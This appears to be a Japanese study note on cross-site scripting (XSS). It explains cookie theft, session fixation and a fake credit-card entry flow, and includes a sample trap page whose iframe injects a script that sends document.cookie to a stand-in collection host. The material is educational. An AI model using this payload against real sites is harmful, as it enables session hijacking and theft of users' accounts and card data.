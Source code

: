 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによって以下のような脅威が発生する。

- ブラウザが保存しているクッキーを取得される
  - 成りすまし
  - クッキーに保存された個人情報の漏洩（ただし、一般的にはクッキーはセッション ID を保持するために使い、データを保存しないことが推奨される）
- 任意のクッキーをブラウザに保存させられる
  - セッション ID が利用者に送り込まれ、セッション ID の固定化攻撃に悪用される
- 画面を書き換えられる

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- ターゲット が罠サイト内に表示された脆弱なサイトをクリックすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

例えば、以下のようなコードで XSS 攻撃が行われる。

```html
<html>
  <body>
    激安商品情報
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

現在では HttpOnly 属性を付与することが増えたため、クッキー値を XSS 攻撃によって盗まれるケースは減ってきた。

しかし、XSS 攻撃による脅威は他にもあり、例えばクレジットカード情報がセキュリティコードも含めて流出することもある。

例えば、以下のような手口で行われる。

- 攻撃者が偽のクレジットカード情報入力画面を用意する
- 攻撃者がクレジットカード情報入力画面に悪意のあるスクリプトを埋め込む
- ターゲットがクレジットカード情報を入力し、入力画面から遷移しようとした時にクレジットカード情報が攻撃者の元へ送信される（XSS 攻撃成立）
- 偽の入力画面から攻撃者が用意した決済エラー画面に遷移する
- 偽の決済エラー画面から正規のクレジットカード情報入力画面に遷移する
- 正規の決済を行う
- 一連のフローによって攻撃されたことに気づかれにくくなる
